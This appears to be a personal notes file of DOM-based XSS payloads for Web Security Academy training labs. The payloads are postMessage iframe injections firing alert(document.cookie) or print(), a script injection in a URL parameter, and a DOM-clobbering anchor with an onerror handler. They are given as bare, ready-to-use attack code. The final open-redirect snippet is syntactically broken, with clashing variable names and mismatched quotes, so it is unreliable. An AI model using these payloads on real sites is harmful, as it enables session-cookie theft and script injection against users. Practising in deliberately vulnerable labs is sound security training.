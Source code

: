 <iframe src="https://0a4d007603fa7e43c0ff24c8004e001d.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=alert(document.cookie)>','*')">

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">

<iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">


<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">

//with open redirect vulnerabltiy
<a href='#' onclick='returnURL' = /url=https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>

